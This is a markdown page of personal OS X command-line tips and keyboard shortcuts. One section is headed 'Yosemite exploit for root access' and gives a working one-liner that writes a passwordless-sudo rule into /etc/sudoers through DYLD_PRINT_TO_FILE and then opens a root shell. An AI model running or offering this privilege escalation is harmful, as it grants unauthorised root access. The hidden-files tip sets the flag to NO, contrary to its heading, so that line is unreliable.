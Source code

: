 ```yaml
---
layout: default
title: OS X
---
```


## Always show hidden files: ##

{% highlight bash %}
defaults write com.apple.finder AppleShowAllFiles NO
{% endhighlight %}

## Start Apache on system startup: ##

{% highlight bash %}
sudo launchctl load -w /System/Library/LaunchDaemons/org.apache.httpd.plist
{% endhighlight %}

## Keyboard shortcuts: ##

{% highlight bash %}
DEL = FN + BACKSPACE
PAGEUP/PAGEDOWN = FN + UP/DOWN
END = FN + RIGHT
HOME = FN + LEFT
MINIMIZE CURRENT WINDOW = CMD + M
SCREEN SHOT (PART) = CMD + SHIFT + 4
SCREEN SHOT (DESKTOP) = CMD + SHIFT + 3
CLOSE ACTIVE WINDOW = CMD + W
EXIT PROGRAM = CMD + Q
{% endhighlight %}

## Yosemite exploit for root access: ##

{% highlight bash %}
echo 'echo "$(whoami) ALL=(ALL) NOPASSWD:ALL" >&3' | DYLD_PRINT_TO_FILE=/etc/sudoers newgrp; sudo -s
{% endhighlight %}

## Add mysql to terminal shell: ##

{% highlight bash %}
echo 'export PATH=/usr/local/mysql/bin:$PATH' >> ~/.bash_profile
. ~/.bash_profile
{% endhighlight %}

## Install file (e.g. composer.phar) globally: ##

{% highlight bash %}
sudo mv %file% /usr/local/bin/%file%
{% endhighlight %}

## Create symbolic link: ##

{% highlight bash %}
ln -s %file_path% %link_path%
{% endhighlight %}
